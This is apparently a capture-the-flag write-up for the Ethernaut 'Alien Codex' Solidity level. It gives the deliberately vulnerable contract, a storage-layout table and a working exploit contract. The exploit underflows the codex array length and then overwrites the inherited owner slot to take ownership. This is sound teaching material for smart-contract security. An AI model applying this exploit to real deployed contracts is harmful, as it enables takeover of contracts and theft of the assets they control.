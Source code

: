 # Alien Codex

## Challenge Description

You've uncovered an Alien contract. Claim ownership to complete the level.

 Things that might help

- Understanding how array storage works
- Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
- Using a very `underhanded` approach

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "./utils/Ownable.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```

## Challenge Solution Walkthrough

We want to become the `owner` of this contract. We can see that there is no `owner` variable in this contract; however, this contract inherited `Ownable` contract which has `_owner` variable, and this variable is in the first slot of the memory. So, we have to change the first slot of the memory to our address.

We can see that the compiler version is `0.5.0` and the `SafeMath` library is not used. So, we are going to use underflow to access the `_owner` variable. To do that, let's find out the memory layout. 

|    Slot Number     |             Variable(s)              |
| :----------------: | :----------------------------------: |
|        `0`         |         `_owner`, `contact`          |
|        `1`         |            `codex.length`            |
|        ...         |                 ...                  |
|   `keccak256(1)`   |              `codex[0]`              |
| `keccak256(1) + 1` |              `codex[1]`              |
|        ...         |                 ...                  |
|   `2 ** 256 - 1`   | `codex[2 ** 256 - 1 - keccak256(1)]` |

Now, if we want to access the first slot, it is the same as accessing the `2 ** 256` slot, because of underflow. We can access the `2 ** 256` slot using `codex[2 ** 256 - 1 - keccak256(1)] + 1`. So, if we set the `codex[2 ** 256 - 1 - keccak256(1)]`, actually we are setting the first slot which contains `_owner`. 

Now, to do that, we write the contract below:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "./AlienCodex.sol";

contract AlienCodexSolution {
    AlienCodex public alienCodex;

    constructor(address alienCodexAddress) public {
        alienCodex = AlienCodex(alienCodexAddress);
    }

    function solveChallenge() public {
        alienCodex.makeContact();
        alienCodex.retract();
        uint256 index = 2 ** 256 - 1 - uint256(keccak256(abi.encode(1))) + 1;
        alienCodex.revise(index, bytes32(uint256(uint160(msg.sender))));
    }
}
```

When we call `solveChallenge()` function, firstly, we call `makeContact()` to set the `contact` to `true` to be able to call other functions in the `AlienCodex` contract. Then, we decrease the length of the `codex` array. In the beginning, the length was `0`, so, if we decrease it, it will be `2 ** 256 - 1`. Now, the size of the `codex` is the same as the size of the whole memory, so we have access to the whole memory using `codex`. Then, we have to find the index of owner which is `2 ** 256 - 1 - uint256(keccak256(abi.encode(1))) + 1`. Finally, we call `revise()` function to set this index to our own address.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

